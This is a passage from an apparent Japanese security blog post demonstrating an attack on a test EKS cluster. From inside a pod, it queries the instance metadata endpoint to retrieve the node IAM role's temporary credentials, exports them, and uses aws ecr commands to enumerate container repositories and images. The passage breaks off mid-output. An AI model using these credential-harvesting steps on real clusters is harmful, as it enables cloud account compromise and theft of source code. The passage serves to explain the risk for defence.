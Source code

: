 GCP とはまた違ったデータが含まれていることが確認できます。このように、クラウドプロバイダーごとに格納されている値は異なるため、利用しているクラウドプロバイダーでどのような値を持っているかを確認し、もしアクセスされた場合にどのような影響が生じるのかを把握することをオススメします。

さて、これらのデータの中で攻撃に利用できるものの一つに Node のインスタンスに紐付いている IAM ロール IAM があります。今回作成したクラスタには `eksctl-test-cluster-nodegroup-ng-NodeInstanceRole-1T2SSTC513WI5` という名前の IAM ロールが付与されていることが確認できます。また、クレデンシャルも取得することもできます。

```shell
bash-5.0# curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
eksctl-test-cluster-nodegroup-ng-NodeInstanceRole-1T2SSTC513WI5

bash-5.0# curl http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-test-cluster-nodegroup-ng-NodeInstanceRole-1T2SSTC513WI5/
{
  "Code" : "Success",
  "LastUpdated" : "2020-11-23T13:32:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...6GVD",
  "SecretAccessKey" : "MgZ0...Rv1A",
  "Token" : "IQoJb3JpZ...QKjFmg==",
  "Expiration" : "2020-11-23T20:06:44Z"
}
```

この IAM ロールには以下のポリシーが適用されています。

- AmazonEKSWorkerNodePolicy
- AmazonEC2ContainerRegistryReadOnly
- AmazonEKS_CNI_Policy

このポリシーには `ec2:DescribeInstances` や `ec2:DescribeVpcs` などもあり、インスタンスやネットワーク情報の取得などが可能なことがわかります。  
さらに興味深いのは `AmazonEC2ContainerRegistryReadOnly` です。これは ECR から任意の Docker イメージを取得することができます。任意の Docker イメージを取得できるということはアプリケーションのソースコードなどを取得できるということになります。

では試してみましょう。Pod に `aws` コマンドをインストールし、 `aws ecr` コマンドを通してリポジトリの情報を取得できます。

```shell
root@test:~# export AWS_ACCESS_KEY_ID=ASIA...6GVD
root@test:~# export AWS_SECRET_ACCESS_KEY=MgZ0...Rv1A
root@test:~# export AWS_SESSION_TOKEN=IQoJb3JpZ...QKjFmg==

root@test:~# aws ecr describe-repositories
{
    "repositories": [
        {
            "repositoryArn": "arn:aws:ecr:ap-northeast-1:926292163423:repository/mrtc0/test",
            "registryId": "926292163423",
            "repositoryName": "mrtc0/test",
            "repositoryUri": "926292163423.dkr.ecr.ap-northeast-1.amazonaws.com/mrtc0/test",
            "createdAt": "2020-11-23T22:51:31+09:00",
            "imageTagMutability": "MUTABLE",
            "imageScanningConfiguration": {
                "scanOnPush": false
            },
            "encryptionConfiguration": {
                "encryptionType": "AES256"
            }
        }
    ]
}

root@test:~# aws ecr list-images --repository-name mrtc0/test
{
    "imageIds": [
        {
            "imageDigest": "sha256:f9fc7e015619f2460609f17fe5903d698db775a340e4554c8a5b1c65d63b53b1",
```